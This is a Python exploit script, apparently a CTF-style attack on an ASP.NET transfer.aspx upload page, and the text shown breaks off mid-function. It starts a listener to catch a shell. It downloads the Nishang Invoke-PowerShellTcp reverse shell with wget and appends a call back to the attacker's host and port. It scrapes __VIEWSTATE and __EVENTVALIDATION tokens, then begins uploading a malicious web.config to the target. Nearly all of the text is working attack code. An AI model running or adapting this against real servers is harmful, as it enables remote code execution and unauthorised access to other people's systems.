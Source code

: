 ```py

# Setar o handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Mount the payload
def mountPayload(lhost,lport):
    print("[+] Let's download the Nishang reverse [+]")
    os.system("wget -q -c https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1")
    print("[+] Download Ok! [+]")
    print("[+] Let's add the call to reverse shell! [+]")
    file = open('Invoke-PowerShellTcp.ps1', 'a')
    file.write('Invoke-PowerShellTcp -Reverse -IPAddress %s -Port %s' %(lhost,lport)) 
    file.close()
    print("[+] Call added! [+]")

# Get the __viewstate and __eventid
def getValues(rhost):
    global event
    global viewstate
    token_url = 'http://' + rhost + ':80/transfer.aspx'
    # Make the request to get csrf token
    token_page = r.get(token_url, proxies=proxies)
    # Get the index of the page, search for VIEWSTAT in it
    index = token_page.text.find("__VIEWSTATE")
    # Get only the csrfMagicToken in it
    viewstate = token_page.text[index:index+141].split('"')[-1]
    index = token_page.text.find("__EVENTVALIDATION")
    event = token_page.text[index:index+97].split('"')[-1]

# Upload the malicious config file
def uploadWebConfig(rhost,lhost):
    url = "http://%s:80/transfer.aspx" %rhost
    headers = {"Content-Type": "multipart/form-data; boundary=---------------------------746245891582727206331504062", "Upgrade-Insecure-Requests": "1"}
```
